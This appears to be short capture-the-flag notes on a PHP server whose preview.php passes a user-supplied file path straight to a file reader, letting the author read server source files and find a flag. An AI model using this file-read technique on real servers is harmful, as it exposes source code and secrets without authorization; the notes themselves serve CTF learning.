 Annual Review

AWS server
serving files
  -preview.php
    network request file=/var/www/html/guide.md
  -app.php
  -index.php

Are trying to find what the file hierarchy is.
running gobuster didn't work can't ping

requested /preview.php?file=/var/www/html/preview.php got this:
```php
<?php
  require_once('libs/utils.php');

  if (!is_auth())
    redirect('index.php');

  $file = $_GET['file'];
  if (isset($file)) {
    header("Content-Type: text/plain");
    echo get_file($file);
  }
?>
```
previewed libs/utils.php which mentionned libs/dynamo.php
The flag was inside of there: flag-d19650aa911acb7c130aa380601d169d3bd08ab4